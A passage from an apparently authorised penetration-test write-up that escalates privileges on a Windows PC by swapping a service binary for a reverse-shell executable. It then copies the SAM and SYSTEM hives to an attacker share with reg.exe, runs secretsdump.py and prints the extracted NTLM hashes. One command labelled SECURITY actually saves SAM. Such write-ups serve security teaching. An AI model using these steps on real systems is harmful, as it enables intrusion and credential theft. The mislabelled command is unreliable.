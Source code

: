 To escale privileges, we uploaded a C# executable in the folder where the service *SystemExplorerHelpService* is located and changed its name to *System.exe*. This executable will create a process to contact the attacking machine creating a reverse shell with administrative privileges, since this service starts with administrative privileges.

To stop and start this service, we send the following commands:

```
# We first stop the original service
sc stop SystemExplorerHelpService

# We start it again, so our executable can be launched
sc start SystemExplorerHelpService
```

![Windows shell with administrative privileges](image-21.png)

#### Exfiltratation
Since the friend allowed to try anything we want, we decided to prove our success by exfiltrating sensitive information from his PC. We extracted in this engagement the files where the hash values are stored:

```
# Dumping the SAM file
reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak 
reg.exe save HKLM\SAM \\10.50.106.78\share\sam.bak 

# Dumping the SYSTEM file
reg.exe save HKLM\SYSTEM \\ATTACKING_IP\share\system.bak
reg.exe save HKLM\SYSTEM \\10.50.106.78\share\system.bak 

# Dumping the SECURITY file
reg.exe save HKLM\SAM \\10.50.106.78\share\system.bak 
```

With the file in our attacking machine, we used the tool *secretsdump.py* from the *impacket* repositoriy to crack those hashes:

```
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL 
```

The extracked hashes are available below:

```
Impacket v0.12.0.dev1+20230914.31713.6a3ecf7e - Copyright 2023 Fortra

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up... 
```
